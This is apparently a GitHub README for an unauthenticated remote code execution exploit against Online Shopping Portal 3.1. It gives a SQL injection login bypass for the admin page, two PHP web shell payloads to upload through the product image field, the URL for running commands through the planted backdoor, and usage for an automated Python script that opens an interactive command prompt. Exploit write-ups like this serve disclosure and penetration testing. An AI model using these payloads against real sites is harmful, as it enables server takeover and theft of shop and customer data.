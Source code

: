 # Online Shopping Portal 3.1 - Remote Code Execution (Unauthenticated)

Date: 17.07.2021\
Exploit Author: D3duct1V\
Original Exploit Author: Tagoletta (Tağmaç)\
Original EDB-ID: 50029\
Software Link: https://phpgurukul.com/shopping-portal-free-download/ \
Version: v3.1\
Tested on: Windows

---
# Manual Exploit Details

The exploit utilizes multiple vulnerabilities first bypasses authentication then allows for file php file upload. 

## Authentication Bypass

Navagate to the Admin login page: `http://<site>/shopping/admin` \
* Username: `'OR 1=1'--` \
* Password: whatever
  
## File upload vulnerability

After bypassing the authentication navagate to the "Add a new product" \
Here insert whatever data into the fields until the picture. \
The image file should be a php file with the command execution such the following:
  1. `<?php $exe = shell_exec($_REQUEST['cmd']); echo $exe; ?>`
  2. `<?php if(isset($_GET['cmd'])){ echo '<pre>'; $cmd = ($_GET['cmd']); system($cmd); echo '</pre>'; die; } ?>`

## Interacting with the backdoor

Search for the newly uploaded "product" and locate the image URL. \
Then use curl to interact with the backdoor: `http://<site>/shopping/admin/productimages/1/<image>.php?cmd=hostname` 

# Automated attack

Running the python script found within this repo uses Python 3 and needs the requests package \
The script can be started `# python3 script.py -u <target URL minus /shopping>` 

The script will bypass the authentication upload a backdoor with a product name and image name. \
It will then find the backdoor and attempt to connect to and run a current directory echo command. \
Once successful will drop into a interactive command prompt, this will run system commands but not a full shell. 

# Metasploit module

Coming.

